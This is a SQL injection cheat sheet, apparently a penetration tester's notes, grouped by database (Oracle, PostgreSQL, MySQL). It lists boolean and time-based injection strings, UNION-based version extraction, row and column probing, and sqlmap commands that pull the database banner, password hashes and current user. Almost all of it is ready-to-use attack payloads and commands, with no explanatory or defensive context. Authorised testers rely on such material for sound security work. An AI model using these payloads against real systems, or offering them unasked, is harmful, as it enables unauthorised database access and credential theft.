 
# ORACLE

**Fuzzing**

' or '1'='1
' or '1'='1' --
') AND ('1'='1

**Confirm DB version**

' or (SELECT BANNER FROM v$version)='Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production

') AND ((SELECT BANNER FROM v$version)='Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production

**Confirm/Control Rows and Columns**

' or '1'='1' ORDER BY 7 OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY --



**sqlmap**

python sqlmap.py -r req.txt --batch --proxy="https://127.0.0.1:8000" --force-ssl --dbms=ORACLE -p tradeTypes

python sqlmap.py -r req.txt --batch --proxy="https://127.0.0.1:8000" --force-ssl --dbms=ORACLE -p tradeTypes --banner --passwords --current-user

python sqlmap.py -r req.txt --batch --proxy="https://127.0.0.1:8000" --force-ssl --dbms=ORACLE --flush-session

# PostgreSQL

**Fuzzing**

1 AND 1::int=1      (You can determine that the backend database engine is PostgreSQL by using the :: cast operator.)

 
' AND 2164=(SELECT 2164 FROM PG_SLEEP(5))-- XYZ
');SELECT PG_SLEEP(5)--
');(SELECT 4564 FROM PG_SLEEP(5))--  

Example: "ProductId": "ABCD0003' AND 2164=(SELECT 2164 FROM PG_SLEEP(5))-- XYZ", ....
Example: "ProductId": "ABCD0003');SELECT PG_SLEEP(5)--XYZ", ...
EXAMPLE: handle=xxx&display_name=xxx&invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(5))--&age=25&terms=on&rules=on
          

**Confirm DB version**

https://www.example.com/store.php?id=1 UNION ALL SELECT NULL,version(),NULL LIMIT 1 OFFSET 1--


**Payloads**
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

# MySQL

**Fuzzing**

' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
,') or 1=1;-- 


**payloads**

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

# MSSQL
